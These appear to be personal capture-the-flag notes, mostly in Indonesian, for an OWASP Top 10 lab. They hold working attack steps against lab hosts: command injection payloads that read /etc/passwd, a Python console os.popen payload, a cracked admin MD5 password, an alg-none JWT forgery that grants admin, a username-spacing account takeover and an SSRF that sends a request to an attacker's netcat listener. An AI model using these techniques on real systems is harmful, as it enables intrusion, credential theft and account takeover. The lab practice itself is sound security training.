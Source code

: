# 1. IDOR :
-> change id parameter to: http://10.10.151.95/note.php?note_id=0 -> to 0

# 2. Cryptographic failure :
-> kasih port dari 10.10.151.95 ke 10.10.151.95:81
-> ctrl + u -> view source code -> ada yang ngarah ke img -> masuk ke /assets 
-> klik webapp.db
-> download webapp.db -> sqlite3 webapp.db -> .tables -> PRAGMA table_info(users) -> select * from users 
-> select password from users where username = 'admin'
-> hash pw md5 di https://crackstation.net/
-> hash pw : 6eea9b7ef19179a06954edd0f6c05ceb
-> plaintext pw : qwertyuiop
-> flag -> login as admin -> THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}


# 3. Command Injection :
-> http://10.10.47.81:82/ target
-> masukin command di input nya -> $(ls) -> .txt jawabannya
-> jawabannya 0 gatau dah
-> masukin command $(whoami) -> jawab
-> masukin command $(cat /etc/passwd) -> cari lokasi bin nya
-> masukin command $(cat /etc/os-release) -> cari version alpine nya


# 4. Insecure Design :
-> reset password di login ini : http://10.10.195.184:85/
-> pakai payload ROYGBIV -> nebak colornya paling possible
-> wordlist roygbiv di burpsuite intruder -> cek di yang length nya beda

# 5. Security Misconfiguration :
-> 10.10.198.138:86 -> ke console -> http://10.10.198.138:86/console
-> ini console python bukan bash -> kudu pake ini -> import os; print(os.popen('command nya').read());
-> ls baca file db nya 
-> cat aja flagnya


# 6. Vuln and outdate component :
-> http://10.10.103.226:84/
-> https://www.exploit-db.com/exploits/47887 -> buat exploit db nya -> download aja py nya
-> jalanin py nya -> file.py url -> nanti cat flagnya ada di opt


# 7. Identification and Authentication Failures :
-> http://10.10.164.222:8088/
-> ke register -> masukkin darren sebagai username -> dia dah ada terus register lagi tambahin spasi di depan ->" darren"
-> lakuin sama ke arthur


# 8. Software and Data integrity failures :
-> kunjungin https://www.srihash.org/ dan hash link yang disuruh ke sha-256
-> http://10.10.40.155:8089/ target -> login asal, nanti dikasih tau credentialnya -> ctrl shift i buat inspect -> cek di storage ada jwt session
-> eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIxMzAzNTY0fQ.Y5iGWecCMfcMlG3dwH1JlMtDA9tKuCvFB8ohG5Gz7Xg
-> index awal [sebelum titik] itu header -> kedua payload -> ketiga signature
-> biar admin coba index ke 2 diganti eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIxMzAzNTY0fQ==
-> signature nya juga apus -> alg nya juga jadiin none
-> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIxMzAzNTY0fQ==. -> dikasih titik diakhir ternyata


# 9. Security Logging and Monitoring Failures :
-> cek di file.txt
-> ip attacker using ada di kiri nickname di catatannya


# 10. SSRF [Server side request forgery] :
-> http://10.10.105.62:8087/ target
-> explore web -> admin area -> ternyata cuman nge allow localhost
-> klik download resume -> inspect element di network sebelum klik -> nah disitu ada name file yang ngarah paraneter ?server= atau href bisa jg
-> nyalakan nc -nvlp 8087 -> lalu ganti 10.10.105.62:8087/download?server=localhost:8087&id=75482342
-> localhost nya ganti ke tun / ip dari vpn thm -> jadi gini /download?server=http://ipvpn:8087/&id=75482342
-> nanti cek nc nya ada flagnya disitu
-> bonus flag dari path admin 
-> 10.10.105.62:8087/download?server=http://localhost:8087/admin%23&id=75482342 -> admin%23 itu admin# -> di pdf nya ada flag
